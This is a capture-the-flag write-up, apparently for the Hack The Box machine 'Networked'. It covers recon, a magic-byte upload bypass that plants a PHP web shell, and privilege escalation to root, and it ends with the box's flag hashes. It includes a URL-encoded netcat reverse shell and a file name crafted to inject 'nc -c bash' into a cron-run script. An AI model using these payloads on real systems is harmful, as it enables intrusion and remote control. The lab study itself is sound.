networked


nmapAutomator.sh
nmaprecon
nmap

ssh running on port 22
http running on port 80

nmap vulns




recon
gobusternikto


gobuster

status 200
/photos.php
/index.php
/lib.php
/uploads.php
status 301
/uploads
/backup
index.php

/photos.php

lib.php
blank s
s/upload.php
very interesting find, we may be able to upload a reverse shell here
/uploads
blank
/backup
compressed backup filelets download it

extract backup.tar
Quick tar extraction tool usage for those unfamiliar:

nikto


initial foothold
first lets move our php reverse shell into our pwdwe can either upload a malicious php file to give us RCE or upload a php script that will call a shell back to us, either will work


upload.php backup
sifting through the 4 files extracted from the compressed backup file, upload.php is worth checking for potential vulnerabilities:


breaking this code down, upload.php is vulnerable to a magic byte spoof
this is because upload.php checks the validity of its uploads based off 2 parameters
1. Whether the file ends in a proper picture file suffix

2. and whether or not a simple file command on the upload deems its a picture
If the upload passes both these checks, it is given execute permissions 
magic bytes for png
since we know png's are an accepted filetype to upload, lets upload a png file and upload it to the server and intercept the packet with burp suite

upload to /upload.php

now lets upload our php script, intercept the packet with burp suite, and paste a line or two of those png magic bytes

upload cmd.php
first choose the file
second intercept it

send to repeater and rename cmd.php to cmd.php.png and add the png magic bytes “GIF8” above our php script

and we see it's uploaded

cmd.php RCE
lets navigate to the URL we just uploadedif we visit /photos we can see the files we've uploaded

right clicking our php.gif will allow us to implement RCE
http://10.10.10.146/uploads/10_10_14_62.php.jpeg?miao=whoami

reverse shell
here Ill grab the netcatt OpenBSD reverse shell from payloadallthethings
and url encode it with Burp

set this value =miao and set up a listener on port 4242
http://10.10.10.146/uploads/10_10_14_62.php.jpeg?miao=%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%31%30%2e%31%34%2e%36%32%20%34%32%34%32%20%3e%2f%74%6d%70%2f%66

and we have our foothold!
privesc to guly
with user apache's privileges we can get into guly's directory but we cannot get the user.txt flag yet, but we see some interesting files

check_attack.php

exfiltrate file with base64 encode
encode the file with base64 <filename>
copy the string with echo -n “<string>”
| pipe it to base64 -d to decode it
and output it to file > check_attack.php

now we get a prettier program to work with


lib.php changes?
we see that the script requires so lets see if we can change that
so lets see if we can change that
unfortunately we dont have write permissions
scandir

lets see exactly what scandir does using our own environment

we see it scans the directory its in!

now looking at check_attack.php

we see we have control of the $value parameter since we can upload files to our victim, we just need to name the file something malicious and it will get executed by php exec without any sanitation!
exec can run multiple commands on one line if separated by a semi-colon so lets use that to our advantage here and get a little creative

if we separate $path and $value with a semicolon ‘;’ we can write malicious code after it
touch -- '; nc -c bash 10.10.14.62 1234.php'
lets add a file into the directory that begins with a semicolon to kill the check_attack script and run a reverse shelltouch -- '; nc -c bash 10.10.14.62 1234.php'
where --' escapes the initial exec call
and nc -c bash 10.10.14.62 1234.php is our reverse shell call
(we want to label the file .php so check_attack will think we're attacking it and run the exec function

this is what the directory should look like

reverse shell
check_attack runs every 3 minutes since its a scheduled task
so its only a matter of time

priv esc to root
running sudo -l

changename.sh


vuln
first we must note our regular expressions allowed in this program
we see \ / allows us to use a space

this code reads in our input and reads it back out as x
now if we declare a variable in bash and run a command right after it we see:

our command will run after our variable declaration
POC
if we enter a space and run bash in any of the changename.sh inputs it will exectute as root
and we see we are root!
user/root

526cfc2305f17faaacecf212c57d71c5

0a8ecda83f1d81251099e8ac3d0dcb82
lessons learned
Check out Rana Khalil's OSCP writeups and prep at https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/